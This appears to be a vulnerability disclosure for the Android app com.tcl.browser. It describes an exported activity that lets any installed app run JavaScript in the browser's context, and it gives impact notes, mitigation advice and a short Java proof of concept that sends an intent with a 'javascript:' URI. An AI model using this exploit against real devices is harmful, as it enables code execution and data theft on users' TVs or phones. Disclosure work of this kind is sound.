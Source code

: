 
![image](https://github.com/actuator/com.tcl.browser/assets/78701239/82062ff5-9806-499b-85ed-68cb3594e8ae)



## Vulnerability Report

### Overview:
A Remote Code Execution (RCE) vulnerability has been discovered in the `com.tcl.browser` application on the Android platform. The vulnerability allows an attacker to execute arbitrary JavsScript code within the context of the application without any permissions.

### Application Details:

- **Vendor:** - Shenzhen TCL New Technology Co., Limited
- **Application Name:** 'Browser TV Web - BrowseHere' com.tcl.browser
- **Version:** 6.49.059_a62ef28f_230730_gp
- **Component:** com.tcl.browser.portal.browse.activity.BrowsePageActivity

### Vulnerability Details:

- **Vulnerability Type:** Remote Code Execution (RCE)
- **Attack Vector:** Via an exported activity component
- **Permissions Required:** None

### Description:

The `com.tcl.browser.portal.browse.activity.BrowsePageActivity` activity in the `com.tcl.browser` app is exported and can be invoked by any third-party application without requiring any permissions. A malicious app can exploit this to execute arbitrary JavaScript code within the context of the `com.tcl.browser` application.

This vulnerability is particularly concerning because:
- The victim does not need to grant any special permissions to any installed applications.
- The attack can be initiated remotely.

![image](https://github.com/actuator/com.tcl.browser/blob/main/poc.gif)


### Proof of Concept (PoC):

![poc](https://github.com/actuator/com.tcl.browser/assets/78701239/15b32aff-92ac-41f2-9d48-4ae5a04ce354)

To demonstrate the vulnerability, one can create a simple Android app that invokes the exported `BrowsePageActivity` activity:


    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Create the intent to start the BrowsePageActivity of com.tcl.browser app
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("com.tcl.browser", "com.tcl.browser.portal.browse.activity.BrowsePageActivity"));

        // Set the URL data you want to pass (for example "http://www.example.com")
        intent.setData(Uri.parse("http://www.example.com"));
        // OR intent.setData(Uri.parse("javascript:alert('...');"));

        // Start the activity
        startActivity(intent);
        finish();
    }



### Impact:

Successful exploitation allows an attacker to:
- Execute arbitrary JavaScript code within the context of the `com.tcl.browser` app.
- Perform any action that the `com.tcl.browser` app can do, potentially leading to further device exploitation or data theft.



The enabled 'settings.setDomStorageEnabled(true)' value in the app's WebView allows for the use of the Web Storage API.

Risks include:

Credential harvesting if websites store sensitive data.
Manipulating or flooding stored values.
Assisting in malicious persistence.

### Mitigation and Recommendations:

1. **Restrict Activity Export:** Do not export activities unless necessary.
If required, implement proper authorization checks to ensure that only legitimate entities can invoke it.


